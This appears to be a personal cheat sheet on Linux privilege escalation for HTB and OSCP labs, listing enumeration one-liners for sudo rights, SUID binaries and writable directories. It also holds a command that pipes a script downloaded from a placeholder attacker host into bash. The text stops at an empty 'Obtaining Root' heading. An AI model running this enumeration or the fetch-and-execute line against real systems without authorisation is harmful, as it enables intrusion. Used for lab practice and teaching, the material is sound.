 # Common Privesc Methods

For Linux privesc I usually like enumerating all directories and unusual files I have access too, and then, running a common binary and some one-liners.

## Identifying Privesc

### One-Liners

Run the following one-liners to enumerate your privs on the box:

- `uname -a` == Gives you linux kernel ver.
- `sudo -l` == Shows you where you have SUDO privs.
- `find / -perm -u=s -type f 2>/dev/null` == Locate SUID Binaries.
- `find / -writable -type d 2>/dev/null` == Locate files you have write access to.

These commands will find the majority of privesc vectors on HTB and OSCP. There is more commands you should try if these don't work but I usually head to linpeas after these.

### Linpeas

Linpeas is a bit outdated but is still effective at finding attack vectors.

```bash
curl -sL http://<myip>/linpeas.sh | bash
```

It is important to carefully read over the output, even the output that linpeas doesn't highlight red.

### Furthur Enumeration

If the `one-liners` **AND** `linpeas` didn't find anything useful, the answer is probably very simple. You most likely just need to like into the files you have read access too. This includes things like:

- Web config files and source code.
- Files in your users home directory.
- Application version exploit *OR* Linux kernel exploit.

If none of the above worked or showed anything interesting, restart from the top, you probably missed something.

## Obtaining Root
